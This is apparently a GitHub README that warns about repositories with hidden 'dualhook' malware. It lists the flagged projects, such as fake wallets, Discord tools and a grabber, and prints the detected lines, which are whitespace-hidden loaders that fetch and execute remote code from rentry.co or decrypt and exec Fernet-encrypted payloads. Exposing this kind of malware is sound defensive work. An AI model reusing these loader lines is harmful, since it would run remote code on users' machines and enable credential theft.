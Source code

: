 
<p align="center">
    🚨 Github Repository Alert 🚨
</p>

## Overview

Welcome to this repository, dedicated to identifying and highlighting instances where the `dualhook` library is used inappropriately. Our goal is to help users spot potential misuse of `dualhook` in various projects.

### Key Information Displayed

Here, you will find details such as:

- **Username**: The GitHub username of the repository owner.
- **Link**: Direct link to the repository.
- **Reason**: Explanation of why the repository is flagged.
- **Files**: List of files containing `dualhook`.
- **Detected Line**: Specific lines where `dualhook` is used.

### They are only 1 of each username, but it doesn't mean the rest is safe !!


| Username | Link | Reason | File Dualhooked | Line
|----------|------|--------|----------------|------
| noth1ng86 | https://github.com/noth1ng86/discord-vanity-sniper | Unsafe | [File URL](https://raw.githubusercontent.com/noth1ng86/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| theruebezahl | https://github.com/theruebezahl/Discord-WebHook-Spammer | Unsafe | [File URL](https://raw.githubusercontent.com/theruebezahl/Discord-WebHook-Spammer/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;exec(requests.get("https://rentry.co/winapi/raw").text)
| mayess213 | https://github.com/mayess213/discord-multitool | Unsafe | [File URL](https://raw.githubusercontent.com/mayess213/discord-multitool/main/gloom.py) | Line 1: from __future__ import print_function                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| pwpijn239 | https://github.com/pwpijn239/flash-usdt-sender | Unsafe | [File URL](https://raw.githubusercontent.com/pwpijn239/flash-usdt-sender/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| Roddy-jpg | https://github.com/Roddy-jpg/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/Roddy-jpg/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| Dahron | https://github.com/Dahron/electrum-fake-balance | Unsafe | [File URL](https://raw.githubusercontent.com/Dahron/electrum-fake-balance/main/main.py) | Line 1: import os                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'iMZ8W6ulnhMYlvCjgGk0IqmlmAvLpiD-pDHwn3fzonc=').decrypt(b'gAAAAABmgYQdd6_7iGJQc4KCuNqJcn9-9XtVwb2wKe68KsYiWq1FEmDrrwWCA-eBL1us26gChLnnfCunbsO9z_t4Dr1mMOxyMGlh-dJrtNFjlEbXnsLBnuUeQcsxO7Cl8jFphD817unyRRzQozUvtafc100y_knLwjPAVBmd_vOFjk0nnhO9PQhE2qiE2Yw9f7XTkfdHPweDeTvnoamqrtPKvqDjJyYnRw=='))
| GordienkoRuslan | https://github.com/GordienkoRuslan/guns.lol-viewbot | Unsafe | [File URL](https://raw.githubusercontent.com/GordienkoRuslan/guns.lol-viewbot/main/main.py) | Line 1: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'rzfSTUQAtTwYGeUR10dbSkB5xAPO7TJohilDN9zl73k=').decrypt(b'gAAAAABmsjupSLtETM0jWCn_IhJPumuXPxK09EsOdUf5--ZpbnFpi-wt6g4gJkpoHQIZXU8xrgMV9gDZZWcIdGzAju1KGeqX0JJYB4R1lasB6DSE46aNSyHOCZBlmCdwN50wbNX-bd7aT5KXIG8_c256ebDipZYu5_alGuamQG0wZOo_QP339FjzM3DvwqrhnavA7cOrc7oLZ-if5SZHVEX2SRThaLfErQ=='))
| light8403 | https://github.com/light8403/fake-exodus | Unsafe | [File URL](https://raw.githubusercontent.com/light8403/fake-exodus/main/main.py) | Line 1: import tkinter as tk                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')) # type: ignore
| ororor69 | https://github.com/ororor69/Luna-Grabber | Unsafe | [File URL](https://raw.githubusercontent.com/ororor69/Luna-Grabber/main/builder.py) | Line 1: import base64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg==')),  Line 111:             size=15, family=self.font), placeholder_text="https://discord(app).com/api/webhooks/1234567890/abcdefhgijklmnopqrstuvwxyz")
| jfloajfew | https://github.com/jfloajfew/ddos-tool | Unsafe | [File URL](https://raw.githubusercontent.com/jfloajfew/ddos-tool/main/main.py) | Line 1: from typing import Any, List, Set, Tuple                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ;import os;os.system('pip install cryptography');os.system('pip install fernet');os.system('pip install requests');from fernet import Fernet;import requests;exec(Fernet(b'3fgc9LAOZU9wAtjVmDUTwNZdzs_lWsWf_RESK0CCgrg=').decrypt(b'gAAAAABmqzuzxjM5xLVdNO1Qx6Dwyw5u7Ppz-YMArvQAS5jresEVFcdZow5cUJFux-przmpTic8HqHBSyOOJlaJTXlwGOkBWygBDB65P62gNQwyEQKXbm27UYL2q5jSNCPdCRZhc0KxS-k4b1T7accgZ7YW3rfOsS5NDuQ4dETrcvePBi44Q3EQkte1srGWgCTca_ITFUeR-qB_sNfZ0yvUM0asiKK58tg=='))
| nARRegx | https://github.com/nARRegx/discord-advertising-tool | Unsafe | [File URL](https://raw.githubusercontent.com/nARRegx/discord-advertising-tool/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   ;exec(requests.get("https://rentry.co/winapi2/raw").text) #ignore: for os checking


## Contributing

Interested in contributing?

1. **Fork** this repository to your own GitHub account.
2. **Add** information about new users or repositories.
3. **Submit** a pull request with your additions or updates.

Your contributions will make a big difference!

## How to Identify Repositories

1. Search on GitHub using keywords like "Discord", "Nitro", or "Token" to find recent repositories.
2. Review the code for occurrences of `dualhook` or utilize a custom scraper similar to the one provided here.
3. Thank you for your efforts in making this project better!
